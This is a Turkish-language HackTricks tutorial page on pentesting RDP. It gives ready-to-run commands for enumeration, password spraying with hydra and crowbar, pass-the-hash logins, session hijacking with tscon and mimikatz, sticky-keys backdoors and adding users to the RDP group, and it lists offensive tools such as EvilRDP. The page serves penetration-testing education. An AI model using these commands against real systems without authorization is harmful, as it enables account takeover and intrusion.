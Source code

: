 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin; bu araçlar keşiften raporlamaya kadar uzanır. Biz pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Temel Bilgiler

Microsoft tarafından geliştirilen **Uzak Masaüstü Protokolü** (**RDP**), bilgisayarlar arasında bir ağ üzerinden grafiksel bir arayüz bağlantısı sağlamayı amaçlamaktadır. Böyle bir bağlantı kurmak için, kullanıcı tarafından **RDP** istemci yazılımı kullanılır ve aynı anda, uzak bilgisayarın **RDP** sunucu yazılımını çalıştırması gerekmektedir. Bu kurulum, uzak bir bilgisayarın masaüstü ortamının kesintisiz kontrolünü ve erişimini sağlar; temelde arayüzünü kullanıcının yerel cihazına getirir.

**Varsayılan port:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeration

### Automatic

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Mevcut şifreleme ve DoS zafiyetini (hizmete DoS oluşturmadan) kontrol eder ve NTLM Windows bilgilerini (sürümler) alır.

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Dikkatli olun, hesapları kilitleyebilirsiniz**

### **Password Spraying**

**Dikkatli olun, hesapları kilitleyebilirsiniz**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Bilinen kimlik bilgileri/hash ile bağlanın
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP hizmetlerine karşı bilinen kimlik bilgilerini kontrol et

impacket'ten rdp\_check.py, bazı kimlik bilgilerinin bir RDP hizmeti için geçerli olup olmadığını kontrol etmenizi sağlar:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin; bu araçlar keşiften raporlamaya kadar uzanır. Pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Saldırılar**

### Oturum çalma

**SYSTEM izinleriyle** herhangi bir **kullanıcı tarafından açılmış RDP oturumuna** erişebilirsiniz; sahibinin şifresini bilmenize gerek yoktur.

**Açık oturumları alın:**
```
query user
```
**Seçilen oturuma erişim**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Artık seçilen RDP oturumunun içinde olacaksınız ve yalnızca Windows araçları ve özelliklerini kullanarak bir kullanıcıyı taklit edeceksiniz.

**Önemli**: Aktif RDP oturumuna eriştiğinizde, onu kullanan kullanıcıyı çıkartacaksınız.

Şifreleri işlemi dökerek alabilirsiniz, ancak bu yöntem çok daha hızlıdır ve kullanıcıların sanal masaüstleriyle etkileşimde bulunmanıza olanak tanır (şifreler not defterinde, diske kaydedilmeden, diğer makinelerde açık olan diğer RDP oturumları...)

#### **Mimikatz**

Bunu yapmak için mimikatz'ı da kullanabilirsiniz:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Bu tekniği **stickykeys** veya **utilman** ile birleştirerek, her zaman bir yönetici CMD ve herhangi bir RDP oturumuna erişim sağlayabilirsiniz.

Bu tekniklerden biriyle arka kapı bırakılmış RDP'leri şu linkle arayabilirsiniz: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Süreç Enjeksiyonu

Farklı bir alan adından veya **daha iyi yetkilere sahip biri RDP ile** **senin Admin** olduğun PC'ye giriş yaparsa, onun **RDP oturum süreci** içine beacon'ını **enjekte** edebilir ve onun gibi davranabilirsin:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### RDP grubuna Kullanıcı Ekleme
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn**, esas olarak Microsoft Windows bilgisayarlarında **Shadow** saldırısını otomatikleştirmek için tasarlanmış, Powershell'de oluşturulmuş bir post-exploitation framework'tür. Bu zafiyet (Microsoft tarafından bir özellik olarak listelenmiştir), uzaktan bir saldırganın **kurbanının masaüstünü izinsiz olarak görüntülemesine** ve hatta talep üzerine kontrol etmesine olanak tanır; bu, işletim sisteminin kendisine ait araçlar kullanılarak yapılır.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Komut satırından otomatik bir şekilde fare ve klavye kontrolü
* Komut satırından otomatik bir şekilde panoya kontrol
* RDP üzerinden hedefe ağ iletişimini yönlendiren bir SOCKS proxy'si oluşturma
* Hedefte dosya yüklemeden rastgele SHELL ve PowerShell komutları çalıştırma
* Hedefte dosya transferleri devre dışı olsa bile hedefe dosya yükleme ve indirme

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin; keşiften raporlamaya kadar. Biz pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için biraz zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
